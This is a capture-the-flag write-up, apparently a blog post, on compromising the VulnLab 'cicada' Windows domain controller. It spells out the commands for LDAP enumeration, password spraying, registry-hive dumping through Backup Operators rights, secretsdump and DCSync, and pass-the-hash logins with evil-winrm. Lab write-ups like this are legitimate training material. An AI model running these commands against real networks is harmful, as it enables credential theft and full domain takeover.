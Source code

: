 ```yaml
---
layout: post
title:  "VulnLab | cicada"
description: "Walkthrough of cicada machine, a medium rated box from VulnLab"
date: "2024-11-25"
pin: false
image:
  path: ../assets/img/ctf/vulnlab/cicada/cicada1.png
  alt: "cicada.vl"
category: "VulnLab"
tags: ["Active Directory", "kerberos", "ESC8"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[cicada](https://www.vulnlab.com/machines) is an medium rated windows box from vulnlab. The foothold consist of abusing the anonymous access to ldap service where we can read a default password in a user description. By spraying this password we can determine a user that haven't yet changed thier password. The privilege escalation part involve absing the rigths of Backup Operators group to get access to the machine account ntlm hash that can by used to perfom dcsync attack. 

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opned ports...
### All Open Ports
```bash
rustscan -a 10.10.116.81
```
![rustscan](./assets/img/ctf/vulnlab/cicada/cicada2.png)

### Services Scanning
```bash
nmap -p... -sC -sV -v -oN cicada.full 10.10.116.81
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 17:02:51 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3389,5357,5985,9389,49664,49667,49669,49674,49675,51102,51118 -sC -sV -v -oN cicada.full 10.10.116.81
Nmap scan report for 10.10.116.81
Host is up (0.049s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 16:02:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-12T16:04:26+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=cicadaDC.cicada.vl
| Issuer: commonName=cicadaDC.cicada.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-26T09:03:15
| Not valid after:  2025-01-25T09:03:15
| MD5:   a63f:e0e6:9c19:ba19:0f14:2198:bd20:3eb3
|_SHA-1: 79c6:f752:73d0:6818:241e:6087:88b0:2a7f:b0bf:ec7f
| rdp-ntlm-info: 
|   Target_Name: cicada
|   NetBIOS_Domain_Name: cicada
|   NetBIOS_Computer_Name: cicadaDC
|   DNS_Domain_Name: cicada.vl
|   DNS_Computer_Name: cicadaDC.cicada.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-12T16:03:47+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
51102/tcp open  msrpc         Microsoft Windows RPC
51118/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: cicadaDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-12T16:03:48
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:04:28 2024 -- 1 IP address (1 host up) scanned in 96.54 seconds
```
### Hostname
```bash
echo '10.10.116.81  cicadaDC.cicada.vl  cicada.vl'  >> /etc/hosts
```

## Foothold
The ldap service allows anonymous access. We can use ldapsearch tool to request informations about users, groups and other active directory objects.
```bash
ldapsearch -H ldap://cicada.vl -x -b "DC=cicada,DC=vl" '(objectclass=User)' "sAMAccountName" | grep sAMAccountName
```
![Users](./assets/img/ctf/vulnlab/cicada/cicada3.png)
```bash
ldapsearch -H ldap://cicada.vl -x -b "DC=cicada,DC=vl" '(objectclass=User)' | grep description -C 5
```
![users and description](./assets/img/ctf/vulnlab/cicada/cicada4.png)
```bash
ldapsearch -H ldap://cicada.vl -x -b "DC=cicada,DC=vl" '(objectclass=Group)' | grep 'member:'
```
![Groups](./assets/img/ctf/vulnlab/cicada/cicada5.png)
```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ivan.Walker
```
From the previous ldap queries we manage to read a default password in  Teresa.Bell description and create a list of valid users. Next let's try to spray that password...
```bash
nxc smb cicada.vl -u users.txt -p 'cicadaS********'
```
![password spaying](./assets/img/ctf/vulnlab/cicada/cicada6.png)

The spraying tells us that our password is valid for user Caroline.Robinson (who is still using the default password). The password has expired so we need to set a new password. This can be done as following: 
```sh
smbpasswd -r 10.10.116.81 -U Caroline.Robinson
```
![caroline passwd change](./assets/img/ctf/vulnlab/cicada/cicada7.png)

```text
user: Caroline.Robinson
pass: NewP@ssw0rd
```
With the  new password, we can try to see what services we can access as Caroline.Robinson. We can we can PSRemote to the DC and we have RW on the C$ share.
```bash
nxc smb cicada.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc winrm cicada.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc smb cicada.vl -u Caroline.Robinson -p NewP@ssw0rd --shares
```
![winrm](./assets/img/ctf/vulnlab/cicada/cicada8.png)
![smb shares](./assets/img/ctf/vulnlab/cicada/cicada9.png)

```bash
ldapdomaindump  'ldap://cicada.vl' -u 'cicada.vl\Caroline.Robinson' -p NewP@ssw0rd -o lootme
```
![ldap dom dump](./assets/img/ctf/vulnlab/cicada/cicada10.png)
```bash
evil-winrm -i cicada.vl -u Caroline.Robinson -p NewP@ssw0rd
```
![evil-winrm](./assets/img/ctf/vulnlab/cicada/cicada11.png)


## Privilege Escalation
Our current user Caroline.Robinson is member of Backup Operators Group...
```powershell
net user Caroline.Robinson
```
![net user](./assets/img/ctf/vulnlab/cicada/cicada12.png)

```bash
reg.py cicada.vl/Caroline.Robinson:'NewP@ssw0rd'@10.10.116.81  backup -o '\\10.10.116.81\C$'
```
![registry](./assets/img/ctf/vulnlab/cicada/cicada13.png)

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
![local secretsdump](./assets/img/ctf/vulnlab/cicada/cicada14.png)

```bash
nxc smb cicada.vl -u Administrator -H 8d992faed38128ae85e95f********
```
![local secretsdump](./assets/img/ctf/vulnlab/cicada/cicada15.png)

```sh
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee':'03f31d66e3ee8be794059*********' 'cicada.vl'/'cicadaDC$'@'10.10.116.81'
```
![local secretsdump](./assets/img/ctf/vulnlab/cicada/cicada16.png)

```bash
nxc smb cicada.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/cicada/cicada17.png)

```bash
evil-winrm -i cicada.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/cicada/cicada18.png)

## Kill Chain Summary
1. Abuse ldap anonymous access to enumerate users, groups,...etc
2. Password spraying
3. Backup Operators Group rights abuse
4. Dcsync attack

## References
[reseting expired passwords](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)